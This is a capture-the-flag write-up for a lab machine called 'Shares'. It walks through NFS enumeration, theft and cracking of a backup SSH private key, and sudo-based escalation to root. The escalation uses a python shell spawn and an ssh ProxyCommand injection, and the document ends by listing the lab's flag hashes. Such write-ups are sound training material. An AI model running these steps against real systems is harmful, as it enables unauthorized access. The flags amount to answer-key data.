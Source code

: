 # CyberSecLabs-Shares
Shares Writeup
*** Screenshots included in docx ***

https://www.cyberseclabs.co.uk/labs/info/Shares/
 

1. Nmap:
nmap -p 1-65535 -T4 -A -v 172.31.1.7 
Network file share (nfs) looks like a good starting point.  Also keep in mind that SSH is available, just on a different port than usual.

2. Dig into the NFS
Let’s see who can mount for this IP:
showmount -e 172.31.1.7
 
Looks like the /home/amir directory can be mounted from any IP.

3. Let’s mount
sudo mount -t nfs 172.31.1.7:/home/amir/ /mnt/Shares
*** Be sure to include sudo if not already root ***
cd /mnt/Shares
ls -la
 
Since we know SSH is a potential option of entry, let’s see if we can grab the RSA key if we can.
 
In this situation, we can read all of the files; however, in a situation where a file had another owner, i.e. -r-------- 1 Timmy Test 393 Apr 2 2020 id_rsa.pub, we would not be able to read it.  Even if this were the case, the backup file allows us to read it (-rw-r--r--)
cat id_rsa.bak
 
Awesome, that’s the private RSA key…let’s copy it to our working directory.
cp /mnt/Shares/.ssh/id_rsa.bak /home/kali/Desktop/SCL_Shares/
 

4. Let’s give SSH a try
ssh -i id_rsa.bak amir@172.31.1.7 -p 27856
*** Remember that the SSH connection is not on port 22 for this ***
 
Hmm…looks like it still requires a passcode.  Let’s see if ssh2john and john can help us out.

5. John the Ripper
python3 /usr/share/john/ssh2john.py id_rsa.bak > hash
*** john can’t recognize the SSH hash until ssh2john is ran ***
 
Let’s give john a try using the rockyou.txt wordlist.
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
Looks like we’ve got our passcode: hello6
Try SSH again:
ssh -i id_rsa.bak amir@172.31.1.7 -p 27856
 

6. Let’s escalate our privileges
Since we don’t have user passwords, let’s see if any user has root access commands that don’t require a password:
sudo -l
 
Wow, looks like amy can run python, let’s get over to GTFOBins to grab the sudo command syntax.
   
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
*** Include -u to specify specific user.  Also changed /sh to /bash, but that’s preference. ***
 
Once we logged in as amy, checked the sudo list once again.
Looks like we can get full root access via SSH!  Back to GTFOBins:
 
 
sudo /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x
*** Again, sh works as well, I just prefer bash ***
 
We are root!  Let’s go find our two hashes:
cat /home/amy/access.txt - dc17a108efc49710e2fd5450c492231c
cat /root/system.txt - b910aca7fe5e6fcb5b0d1554f66c1506
 
